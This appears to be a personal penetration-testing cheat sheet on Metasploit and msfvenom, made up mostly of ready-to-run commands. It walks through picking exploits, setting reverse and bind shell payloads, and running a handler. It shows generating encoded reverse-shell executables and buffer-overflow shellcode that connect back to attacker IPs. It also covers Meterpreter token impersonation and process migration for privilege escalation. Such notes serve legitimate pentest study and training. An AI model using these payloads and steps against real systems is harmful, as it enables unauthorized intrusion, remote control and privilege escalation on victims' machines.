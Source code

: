 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

metasploit

~~~bash
msfconsole
msfvenom
/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb
~~~

Launch MSFConsole

~~~bash
msfconsole
~~~

Pick an Exploit (Way into the system)

~~~bash
use exploit/.../.../.../explot_to_use
~~~

Set a Payload (Way back to you)

~~~bash
set PAYLOAD .../.../.../reverse_shell
set PAYLOAD .../.../.../bind_shell
~~~

Show Options to Set

~~~bash
show options
~~~

Set Options within the Exploit and Payload

~~~bash
set LHOST 10.10.10.100
set LPORT 4444
set RHOSTS 10.10.10.10
set RPORT 8080
etc...
~~~

Spool output to file

~~~bash
spool /home/kali/spool_file.txt
~~~

Stopping Spooling

~~~bash
spool off
~~~

Run Exploit

~~~bash
run
~~~

Accepting Connections Within Metasploit

~~~bash
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST your-ip
set LPORT listening-port
run
~~~

Breakdown of the above:

use exploit/multi/handler                                        -- Sets up the handler to accept the incoming connection
set PAYLOAD windows/meterpreter/reverse_tcp           -- Sets the payload for the handler to accept and interpret properly (THIS MUST MATCH THE MSFVENOM GENERATED PAYLOAD)
set LHOST your-ip                                                  -- Sets the Local Host IP/Listening Host IP for accepting the incoming connection
set LPORT listening-port                                          -- Sets the Local Port on the Local/Listening Host to Listen on for the incoming connection
run                                                                      -- Runs the Handler that we have set up

Example of the MSFVenom command used to set this attack up:

~~~bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=[IP] LPORT=[PORT] -f exe -o [SHELL NAME].exe
~~~

Once you have a meterpreter shell, you can type “help” for a list of commands available to you in the Meterpreter session. If you do not have needed commands, you may be running mismatched meterpreter payloads and meterpreter can't get a proper session set up.

Once you have a Meterpreter session active, you can load and use modules on the Victim PC.

To load a module, issue the command:

~~~bash
load <module name>
~~~

ex. load incognito

Incognito is used for Token Impersonation

~~~bash
Meterpreter>load incognito
~~~

List Available Tokens for Impersonation

List groups

~~~bash
list_tokens -g
~~~

list users

~~~bash
list_tokens -u
~~~

Impersonate a Specific Available Token

~~~bash
impersonate_token "BUILTIN\Administrators"
~~~

Verify that you have Successfully Impersonated the Token

~~~bash
getuid
~~~

Find a safe Process to Migrate to for Primary Token (Impersonation is a stepping stone for Primary Token Impersonation)

~~~bash
ps
~~~

Locate the PID for “services.exe” as this is generally a safe process to migrate to for escalation

~~~bash
migrate <PID Number>
~~~

After Successfully Migrating to another process with Higher Privs, you can now execute an interactive shell on the system

~~~bash
shell
~~~

Allows you to generate shellcode or executables for access on a victim machine

Shellcode Generation 

***(This will work without Metasploit as this is a non-meterpreter payload)

~~~bash
msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=LISTENER_PORT EXITFUNC=thread -f c -a x86 -b "\x00\OTHERBADCHARS"
~~~

Breakdown of the above command:
-p == Payload Specification
windows/shell_reverse_tcp == Payload To Use
LHOST == Local Host IP (Attacker PC)
LPORT == Listener Port (Attacker PC)
EXITFUNC == Function To Exit Payload Gracefully
-f == Format/File Type
c == C Code (exe would indicate windows binary, py would indicate python script, etc.)
-a == Architecture Specification
x86 == 32Bit Architecture
-b == Bad Character Specification (used for Buffer Overflow Shellcode)
“\x00\OTHERBADCHARS” == Bad Character Definitions

Executable Generation 

***(This will not work outside of Metasploit as this is a meterpreter payload)

~~~bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.10.10.10 LPORT=4444 -f exe -o badexecutable.exe
~~~

Breakdown of the above command:
-p == Payload Specification
windows/shell_reverse_tcp == Payload To Use
-a == Architecture Specification
x86 == 32Bit Architecture
--encoder == Encoder Specification flag
x86/sikata_ga_nai == Encoder Definition
LHOST == Local Host IP (Attacker PC)
LPORT == Listener Port (Attacker PC)
-f == Format/File Type
exe == exe binary (exe would indicate windows binary, py would indicate python script, etc.)
-o == Output File Specification Flag
badexecutable.exe == Output File Definition (Path can be included i.e. /home/user/badexecutable.exe)

!IMPORTANT NOTES!

Meterpreter Payloads will only be accepted in Metasploit
Other Payloads should be able to be accepted using NetCat

~~~bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.49.152 LPORT=4444 -f elf -o shell
~~~
